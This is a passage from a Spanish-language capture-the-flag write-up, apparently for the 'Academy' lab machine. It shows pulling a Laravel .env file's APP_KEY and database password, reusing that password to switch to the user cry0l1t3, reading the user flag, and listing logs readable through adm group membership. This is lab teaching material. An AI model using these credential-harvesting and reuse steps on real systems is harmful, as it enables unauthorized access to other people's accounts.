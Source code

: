 ### Usuario cry0l1t3

Dado que el propietario es el usuario `cry0l1t3`, debemos buscar una forma de pivotar hacia ese usuario.

Recordamos del resultado de Nmap que hay una instancia de MySQL escuchando en el puerto 33060. Laravel usa archivos `.env` para configuraciones de bases de datos (paquete PHP phpdotenv).

La inspección de la aplicación Laravel academy revela credenciales MySQL en el archivo `.env`. La aplicación principal de Academy se encuentra en `/var/www/html/academy`.

```bash
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

[...]
```

Intentar ingresar a MySQL utilizando el cliente mysql con estas credenciales resulta en un fallo. Sin embargo, podemos cambiar al usuario `cry0l1t3` con la contraseña "`mySup3rP4s5w0rd!!`" utilizando el comando `su`.

```bash
www-data@academy:/var/www/html$ su cry0l1t3
Password: 
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

Excelente, ahora podemos leer la flag.

```bash
$ bash
cry0l1t3@academy:/var/www/html$ cd
cry0l1t3@academy:~$ cat user.txt 
5e5f808076fab1e3****************
```

El comando `id` revela que este usuario es miembro del grupo `adm`. El grupo `adm` permite a los usuarios leer los registros del sistema. En Linux todos los registros se encuentran dentro de la carpeta `/var/log`. 

```bash
cry0l1t3@academy:/var/log$ find . -group adm 2>/dev/null
./auth.log.3.gz
./dmesg.1.gz
./syslog.2.gz
./kern.log.3.gz
./syslog.6.gz
./syslog.1
./kern.log
./dmesg.0
./syslog
./dmesg.2.gz
./apt/term.log.2.gz
./apt/term.log.3.gz
```
